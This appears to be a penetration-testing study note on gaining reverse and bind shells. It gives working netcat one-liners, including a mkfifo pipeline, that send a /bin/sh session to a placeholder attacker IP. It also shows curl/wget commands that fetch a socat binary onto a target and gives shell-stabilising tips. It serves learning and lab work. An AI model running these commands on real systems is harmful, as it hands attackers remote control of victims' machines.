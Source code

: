 ```yaml
---
description: Reverse/bind shell
---
```


# Gaining shell

### Static compiled binaries

{% embed url="https://github.com/andrew-d/static-binaries/blob/master/binaries" %}

### Webshell repository in Kali Linux

`/usr/share/webshells/`

### Reverse shell

Given a scenario where an attacker has gained remote code execution privileges on a victim machine, a reverse/bind shell can be established to allow the attacker to gain a remote shell session on the victim machine.

A reverse shell works by establishing a connection from the target machine with shell execution, to a listening port on the attacker's machine. This allows any commands sent from the attacker's machine to be executed by the shell on the victim's machine, allowing a remote shell environment.

A bind shell works in an opposite way to a reverse shell, such that the connection is established from attacker machine to the target machine on a specific listening port (enabled by the attacker).&#x20;

#### Basic command on attacker machine:

```bash
# Listen on a TCP port
$ nc -lp [port]
```

#### Command to be executed on the victim's machine:

```bash
# option 1
$ nc <attacker_IP> [port] -e /bin/sh


# option 2: -e flag might not be present for some netcat versions
$ rm /tmp/fifo; mkfifo /tmp/fifo; cat /tmp/fifo | /bin/sh -i 2>&1 | nc <attacker_IP> [port] > /tmp/fifo

```

### Bind shell

#### Basic command on attacker machine:

```bash
# Listen on a TCP port
$ nc <victim_IP> <port>
```

#### Command to be executed on the victim's machine:

```bash
# option 1
$ nc -lp [port] -e /bin/sh

# option 2: with $ symbol on attacker machine
$ rm /tmp/fifo; mkfifo /tmp/fifo; cat /tmp/fifo | /bin/sh -i 2>&1 | nc -lp [port] > /tmp/fifo

```



### Explanation for commands use in option 2 of reverse/bind shell

_**What is a fifo (named pipe) file?**_

> ‘mkfifo’ is primarily used when two processes need to communicate with each other but do not have a parent-child relationship. A FIFO special file is an extension of pipes, which offers a pathway for data between two processes. The FIFO special file can be opened by multiple processes for reading and writing. It is especially useful in scenarios where data streaming is necessary.

{% embed url="https://hopeness.medium.com/master-the-linux-mkfifo-command-a-comprehensive-guide-7e64ac926228" %}
mkfifo command
{% endembed %}

1. `rm /tmp/fifo`: Remove the _fifo_ (named pipe) file if it already exists
2. `mkfifo /tmp/fifo:` Create a _fifo_ file at the location `/tmp/fifo` using the `mkfifo` command
3. `cat /tmp/fifo`: Retrieve content of the created _fifo_ file
4. `/bin/sh-i 2>&1:`  Simply executes the current shell, with the `-i` flag for interactive shell mode, and `2>&1` which redirects standard error to standard output, combining both output streams
5. `nc -lp [port] > /tmp/fifo`: Runs the netcat command and sends the output to `/tmp/fifo`.&#x20;

_**Overview**_

These series of commands essentially continuously waits for an input from the attacker machine, before executing it with the current shell, before sending back as input through the established _netcat_ connection:

```bash
cat /tmp/fifo | /bin/sh -i 2>&1 | nc ... > /tmp/fifo
```

a) Attacker sends remote command, which is directed to (`>`) `/tmp/fifo`

b) When the value of `/tmp/fifo`changes, the `cat` command would retrieve the new value and pipe it as input to the `/bin/sh -i 2>&1` command

c) The output from the executed shell command would be piped back as input through the _netcat_ connection to be viewed on the attacker machine



### Stable shells

Using basic methods such as netcat will generate a shell that might not be stable: terminates with ctrl+Z, non-interactive shell, etc. Alternative methods are available:

1. _**socat**_

Socat is generally more stable on Linux systems compared to Windows (target machine). As socat might not be installed on all target Linux systems, it will need to be installed. However, the common method of using `apt install` or `apt-get install` is not ideal as it requires multiple dependencies and other possible configurations.&#x20;

Instead, a static compiled binary (without dependencies) can be installed from a direct HTTP URL on the target machine using tools such as `curl` or `wget`. Link: [https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

```bash
$ curl https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true --output /bin/socat
```

```bash
$ wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true -O /bin/socat
```



_**Note**_: The output directory depends on a few factors such as the current working directory, or the value of the `$SHELL`environment variable. This is important to ensure the installed binary can be executed from the target machine.

#### Hosting the binary on a publicly accessible attacker-controlled machine

The binary can also be hosted on another attacker-controlled machine on the internet, and be accessed via a simple Python web server running on that machine.

#### Useful commands to allow smooth interactions

_**Note**_: These commands should be ran from the attacker's machine terminal, and not on the target shell  itself

1. `stty` tool

```bash
$ stty -a

# controls the registered width/height of the terminal - useful to allow smooth interactions with text editors 
$ stty cols <value>
$ sttyl rows <value>
```



{% embed url="https://tryhackme.com/r/room/introtoshells" %}

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux" %}

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell" %}

{% embed url="https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}
